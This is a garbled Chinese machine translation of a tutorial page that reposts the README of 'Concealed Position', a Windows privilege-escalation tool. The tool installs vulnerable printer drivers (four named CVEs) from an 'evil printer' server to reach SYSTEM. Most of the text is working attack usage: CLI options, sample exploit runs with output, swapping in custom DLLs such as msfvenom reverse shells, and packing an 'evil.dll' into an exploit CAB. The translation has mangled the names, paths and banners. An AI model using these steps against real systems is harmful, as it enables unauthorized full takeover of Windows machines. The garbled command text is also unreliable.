

# 隐蔽位置:自带打印驱动程序权限提升工具

> 原文：<https://kalilinuxtutorials.com/concealed-position/>

**隐藏位置**是利用“自带漏洞”的概念对 Windows 进行的本地权限提升攻击。具体来说，隐藏位置(CP)使用 Windows 中设计的*封装点和打印逻辑，允许低权限用户暂存和安装打印机驱动程序。CP 专门安装具有已知漏洞的驱动程序，然后利用这些漏洞升级到系统。隐蔽阵地首次出现在 DEF CON 29 上。*

**有哪些功勋可用**

隐蔽位置提供了四个漏洞——都有同样愚蠢的名字:

*   酸性损害–CVE-2021-35449–利盟通用打印驱动程序 LPE
*   辐射损坏–CVE-2021-38085–佳能 TR150 打印驱动程序 LPE
*   中毒损害–CVE-2019-19363–理光 PCL6 打印驱动程序 LPE
*   削减损坏-CVE-2020-1300-Windows 打印假脱机系统 LPE

这种利用是巧妙的，因为除了削减损害，他们将继续工作，甚至在问题被修补后。Windows 阻止用户使用旧驱动程序的唯一机制是吊销驱动程序的证书——这不是(？)历史上做过。

**但是我该用哪个漏洞利用呢？！**

可能是酸中毒。辐射伤害和中毒伤害是竞争条件(覆盖一个 DLL ),而砍杀伤害，希望在任何地方都能被修补。

**它是如何工作的？**

隐蔽位置有两部分。一个邪恶的印刷商和一个客户。客户端访问服务器，获取驱动程序，将驱动程序存储在驱动程序存储中，安装打印机，并利用安装过程。轻松点。用 MSAPI 的话说，攻击是这样的:

**步骤 1:将驱动程序存放在驱动程序存储中
客户端到服务器:GetPrinterDriver
服务器到客户端:用驱动程序响应
阶段 2:从驱动程序存储中安装驱动程序
客户端:InstallPrinterDriverFromPackage
阶段 3:添加本地打印机(开发阶段)
客户端:添加打印机**

重要的是要注意，削减损坏实际上并不是这样工作的。SLASHINGDAMAGE 是 DEFCON 28 (2020)中描述的邪恶打印机攻击的一种实现，早就打了补丁。我只是碰巧喜欢这次攻击(它引发了本开发的其余部分),并认为我应该把这个漏洞留在我邪恶的服务器上……尽管这可能会令人困惑。

**这是 Windows 漏洞吗？**

可以说，是的。驱动程序存储是“第三方驱动程序包的可信集合”，需要管理员访问才能修改。使用`**GetPrinterDriver**`,低特权攻击者可以将任意驱动程序放入商店。对我来说，这跨越了明显的安全界限。

当他们发布 CVE-2021-34481 时，微软似乎同意了。

虽然…这只是系统的一个特征，而不是一个漏洞，这是有争议的。真的没那么重要。攻击者可以升级到标准 Windows 安装上的系统。

CVE-2021-34481 影响了 Windows 的哪些版本？

至少 Windows 8.1 及以上。

**我如何使用这些工具？**

简单！简单到会有很多段落来描述它！

**CP 服务器**

首先，让我们看看 cp_server 的命令行选项:

**C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>CP _ server . exe
*_* *|
|*|*|* ****|||
|*|*|
|*|*|*|*|*|*|*|*| *CLI 选项:
-h，–help 显示帮助消息
-e，–exploit arg 漏洞利用要使用
-c，–cabs arg(=。\ cab _ files)cab 文件的位置
漏洞可用:
酸伤害
中毒伤害
辐射伤害
砍伤伤害
C:\ Users \ albino lo*********bster \ hidden _ position \ build \ x64 \ Release \ bin>

上面你可以看到服务器需要两个选项:

*   为其配置打印机的漏洞
*   此存储库 cab_files(.\cab_files\是默认值)

例如，假设我们想要配置一个邪恶的打印机来提供 ACIDDAMAGE 驱动程序。只要这样做:

**C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>CP _ server . exe-e acid damage
*_* **|*|||*|*|*|*|*|*|*|*|*|
_*_
|
| || || |
|*|*|
|*|*|*|*|*|*|*|*|*
[+]创建临时空间……
[+]扩展。\ cab _ files \ acid damage \ lmud1 o 40 . cab
[+]推入驱动存储
[+]清理 tmp 空间
[+]安装打印驱动
[+]驱动安装完毕！
[+]安装共享打印机
[+]共享打印机已安装！
[+]自动化完成。
【！]重要的手动步骤！
[0]在高级共享设置中，关闭密码保护共享。
【1】蓄势待发！
C:\ Users \白化龙虾\ hidden _ position \ build \ x64 \ Release \ bin>****

 *就这样，您会在系统上看到一台新的打印机:

**PS C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>Get-Printer
Name computer Name Type driver Name port Name 共享发布
d
————————————————————————————
acid damage Local Lexmark Universal v2 LPT 1:True False
cute pdf Writer Local cute pdf Writer v 4.0 CP w4:False False
OneNote for Windows 10 Local Microsoft Software Pri…of…False False
Microsoft XPS Document Writer Local Microsoft XPS Document…port prompt:False False False
Microsoft Print To PDF Local Microsoft Print To PDF port prompt:False False False
Fax Local Microsoft Shared Fax D…SHR Fax:False False
PS C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>**

请注意，有一个手动步骤`**cp_server**`会提示您去做。因为我是一个垃圾黑客，我不知道如何通过编程来设置“高级共享设置”——>“关闭密码保护的共享”。你必须自己做那件事！

使用`**SLASHINGDAMAGE**`的过程略有不同。您需要首先安装 CutePDF Writer(在第三方目录中找到安装程序)。然后运行 cp_server 和*然后*你仍然需要遵循几个手动步骤并重启。

**CP 客户端**

客户端同样易于使用。让我们看看它的命令行选项:

**C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>CP _ client . exe
*_* *|
|*|*|* ****|||
|*|*|
|*|*|*|*|*|*|*|*| *CLI 选项:
-h，–帮助显示帮助消息
-r，–rhost arg 远程邪恶打印机地址
-n，–name arg 远程邪恶打印机名称
-e，–exploit arg 利用漏洞使用
-l，–本地无远程打印机。仅限本地攻击。
-d，–用户提供的要执行的 dll 的 DLL 参数路径。
可用攻击:
酸性伤害
中毒伤害
辐射伤害*********

首先，我想谈谈–dll 选项。客户端有一个嵌入的有效负载，它将简单地写入 C:\result.txt 文件。但是，用户可以通过此选项提供自己的 DLL。msfvenom 生产的 x64 reverse shell 就是一个很好的例子。但是在剩下的时间里，我们只假设嵌入的有效载荷。

`**cp_client**`有两种模式:远程和本地。远程选项是最有趣的，因为它将易受攻击的驱动程序添加到驱动程序存储中(从而执行自带打印驱动程序漏洞)，所以我们将首先使用它。假设我想连接回我们之前配置的 evil ACIDDAMAGE 打印机。我只需要提供:

*   我想利用的漏洞
*   邪恶的打印机 IP 地址
*   邪恶共享打印机的名称

像这样！

**C:\ Users \ albino lobster \ Desktop>CP _ client . exe-r 10 . 0 . 0 . 9-n acid damage-e acid damage
*_* *|
|* ||*|*| | | | | | | | | || _ | || |*|*|*|*|*|*|*|
_*_
|
*|*|||
|*|*|
|*|
|*|*|*|*| *[+]检查驱动程序是否已经安装
[-]驱动程序不可用。
[+]回调到 evil printer @ \ 10 . 0 . 0 . 9 \ acid damage
[+]驱动程序存储中的登台驱动程序
[+]安装登台驱动程序
[+]驱动程序已安装！
[+]起始酸损坏
[+]检查 C:\ program data \ Lexmark Universal v2 \是否存在
[-]目标目录不存在。触发安装。
[+]安装打印机
[+]读入 C:\ program data \ Lexmark Universal v2 \ Universal Color laser . gdl
[+]搜索文件内容
[+]更新文件内容
[+]删除更新的 gpl
[+]删除 Dll.dll 到磁盘
[+]暂存 c:\tmp
[+]安装打印机
[！祝你成功！****

就是这样！要执行仅本地攻击，您只需提供以下漏洞:

**C:\ Users \ albino lobster \ hidden _ position \ build \ x64 \ Release \ bin>CP _ client . exe-l-e acid damage
*_* *|
|*|*|* *|*|||*|*|*|*|*|*|*|*|*|
_*_
|
| || || |
|*|*|
|*|*|*|*|*|*|*|*|*
[+]检查驱动程序是否已经安装
[+]驱动程序已安装！
[+]起始酸损坏
[+]检查 C:\ program data \ Lexmark Universal v2 \是否存在
[-]目标目录不存在。触发安装。
[+]安装打印机
[+]读入 C:\ program data \ Lexmark Universal v2 \ Universal Color laser . gdl
[+]搜索文件内容
[+]更新文件内容
[+]丢弃更新的 gpl
[+]将 Dll.dll 放到磁盘
[+]暂存 c:\tmp
[+]安装打印机
[！祝你成功！
C:\ Users \白化龙虾\ hidden _ position \ build \ x64 \ Release \ bin>***

**为什么客户端没有 SLASHINGDAMAGE 选项？**

不需要特殊的客户端进行开发。您可以只使用用户界面或命令行连接到远程打印机，就是这样！不幸的是，如果您想滚动一个定制的有效负载，您需要更新 cab_files 目录中的 CAB。但那很简单。大概是这样的:

**echo "evil.dll " "../../evil . dll ">files . txt
make cab/f files . txt
move disk 1/1 . cab exploit . cab**

知道回购中的版本`**SLASHINGDAMAGE**`将 ualapi.dll 放入 SYSTEM32，并且当在重启时执行时，它会放入 C:\result.txt 文件可能很重要。

**拉请求和 bug**

是提交拉取请求还是归档 bug？太好了！我很感激，但是如果你没有提供足够的细节来重现一个错误或者解释为什么一个拉请求应该被接受，那么有 100%的机会我会关闭你的问题而不做任何评论。我很感激你，但是我也很忙。

**其他事情**

需要注意的一点是，inject_me dll 实际上是作为 C 数组嵌入 cp_client 的。如果更新 inject_me，您还需要手动更新 C 数组(只需使用 xxd 来生成数组)。

[**Download**](https://github.com/jacob-baines/concealed_position)*